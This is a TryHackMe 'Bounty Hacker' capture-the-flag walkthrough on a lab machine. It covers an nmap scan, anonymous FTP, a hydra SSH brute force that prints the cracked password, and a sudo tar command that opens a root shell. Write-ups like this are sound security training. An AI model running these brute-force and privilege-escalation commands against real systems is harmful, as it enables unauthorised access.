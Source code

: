 ```yaml
---
title: THM Bounty Hacker Writup
categories:
  - TryHackMe
  - Writeup
tags:
  - THM
  - Try Hack Me
  - Walkthrough
  - Writeup
  - Bounty Hacker
---
```


Start off with an nmap scan:
`sudo nmap -A 10.10.144.76 -v`   
We got a hit for 3 ports:  
<!--end-->   
```
21/tcp    open   ftp             vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.14.1.118
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open   ssh             OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp    open   http            Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```  
We see from an NSE script that Anonymous FTP login is allowed, which is a common misconfiguration and an easy way to gain information. Lets login to see whats there:
```
$ ftp 10.10.144.76
Connected to 10.10.144.76.
220 (vsFTPd 3.0.3)
Name (10.10.144.76:yosef): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

We list the directory:
```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
```
We found two txt files, lets get them and see whats there.
locks.txt appears to be a wordlist, so well keep that for when we find a username.
Turns out, the task.txt file gives us a username `lin`, so lets try to bruteforce SSH with what we have. Well use hydra for this one.  
`hydra -l lin -P locks.txt ssh://10.10.144.76 -t 4`  
The -t 4 flag only runs 4 tasks at once, since many SSH configurations wont allow more.
After a little bit we get the login:
`[22][ssh] host: 10.10.144.76   login: lin   password: RedDr4gonSynd1cat3`  
Great, now lets try to SSH in ourselves.
```
$ ssh lin@10.10.144.76
The authenticity of host '10.10.144.76 (10.10.144.76)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.144.76' (ECDSA) to the list of known hosts.
lin@10.10.144.76's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$
```  
We're in. We can now get the user flag located in the users Desktop folder.  
  
First thing we should always run is `sudo -l` to check if the user can run anything as root (Or another user for that matter). It is the most common and easiest way to privesc.
we get:
```
$ sudo -l
[sudo] password for lin: 
  
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```  
We are allowed to run tar as root. tar is a file archiving binary; these are often very easy to exploit to get a root shell when we can run them as sudo or SUID/SGID.
We run:  
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`  
What this is doing is running tar to create an archive from the files `/dev/null` and `/dev/null`, which are the same thing - a null device; basically means you can write anything to there and it would act as if it was written when its actually just deleted. The `--checkpoint-action=exec=/bin/sh` is saying that its wants to execute `/bin/sh` (A shell) on each chekpoint (we technically only need the first).  
Running this automatically gives us a root shell as excpected:
```
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami 
root
```  

